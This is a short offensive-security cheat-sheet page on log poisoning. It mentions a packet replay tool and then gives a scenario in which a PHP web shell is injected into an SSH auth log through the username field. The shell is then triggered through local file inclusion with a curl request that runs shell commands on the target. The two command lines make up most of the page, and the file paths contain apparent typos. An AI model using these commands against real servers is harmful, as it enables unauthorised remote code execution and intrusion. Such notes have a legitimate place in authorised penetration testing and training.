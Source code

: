 # Log Poisoning



## Log Poisoning <a id="log-poisoning"></a>

**Colasoft** **Packet Player**

Is a packet replayer which allows users to open captured packet trace files and play them back in the network

Can replay fake traffic into a connected network.

[http://www.colasoft.com/packet\_player/](http://www.colasoft.com/packet_player/)

**Scenario:**

Ports 22 & 80

can view /var/log.auth.log on port 80

```text
ssh "<?php echo system($_GET['cmd']);?>"@TARGETIPADDRESS
```

Call the webshell through the viewable log with in this case is viewable by LFI

Below view working directory, current user and lists contents of directory

```text
curl 'http://TARGETIPADDRESS/index.php?file=%2fcar%2flog%2fauth.log&cmd=pwd;id;ls%20-lah'
```

